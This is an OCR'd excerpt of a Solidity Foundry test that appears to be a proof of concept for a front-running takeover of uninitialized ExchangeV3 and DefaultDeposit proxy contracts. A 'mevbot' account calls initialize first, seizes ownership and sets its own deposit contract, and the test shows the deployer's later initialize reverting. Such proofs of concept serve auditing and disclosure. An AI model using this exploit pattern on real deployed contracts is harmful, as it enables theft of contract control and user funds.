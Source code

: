```

        // Retrieve the current owner of the ExchangeV3 proxy after the DefaultDepositContract
        (success,callresp) = address(DepositProxy).call(abi.encodeWithSignature("owner()"));
        current = abi.decode(callresp,(address));
        console.log("[i] Owner of DefaultDeposit proxy directly after deployment :",current);

        // now take over the proxies as though we are front-running
        vm.startPrank(mevbot);
        // now Front run the ExchangeV3 contract and takeover ownership and set our own Depsot contract
        (success,callresp) = address(proxy).call(abi.encodeWithSelector(ExchangeV3.initialize.selector,address(0x9385aCd9d78dFE854c543294770d0C94c2B07EDC),mevbot,bytes32("123456789"),bytes32("123456789")));
        (success,callresp) = address(proxy).call(abi.encodeWithSelector(ExchangeV3.setDepositContract.selector,address(DepositProxy)));
        
        // now Front run the DefaultDeposit contract and takeover ownership
        (success,callresp) = address(DepositProxy).call(abi.encodeWithSelector(DefaultDepositContract.initialize.selector,address(exchange)));
        
        // Retrieve the current owner of the ExchangeV3 proxy after the front run
        (success,callresp) = address(proxy).call(abi.encodeWithSignature("owner()"));
        current = abi.decode(callresp,(address));
        console.log("[i] Owner of ExhangeV3 proxy after front run :",current);

        // Retrieve the current owner of the DefaultDeposit proxy after the front run
        (success,callresp) = address(DepositProxy).call(abi.encodeWithSignature("owner()"));
        current = abi.decode(callresp,(address));
        console.log("[i] Owner of DefaultDeposit proxy after front run :",current);
        vm.stopPrank();

        // now try as the deployer to action the initialize as normal
        vm.startPrank(deployer);
        vm.expectRevert();
        (success,callresp) = address(proxy).call(abi.encodeWithSelector(ExchangeV3.initialize.selector,address(0x9385aCd9d78dFE854c543294770d0C94c2B07EDC),mevbot,bytes32("123456789"),bytes32("123456789")));
        vm.stopPrank();
        console.log("[i] If this output runs the test reverted as expected and we took over ownership of the proxies");
    }
}

```